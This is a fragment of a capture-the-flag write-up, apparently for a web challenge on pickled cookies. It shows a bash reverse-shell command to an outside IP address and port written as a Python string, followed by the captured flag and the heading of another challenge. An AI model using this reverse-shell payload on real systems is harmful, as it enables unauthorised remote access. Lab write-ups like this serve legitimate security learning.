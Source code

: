 ```python
"/bin/bash -c 'bash -i >& /dev/tcp/13.127.206.16/15354 0>&1'"
```

![image.png](images/Web/Pickle_Me_This_Cookie_Jar_Shenanigans/image2.png)

```python
CM{c0Ngr47S_y0u_ArE_A_Ser1A1_KI11er}
```

## Hashing Numbers
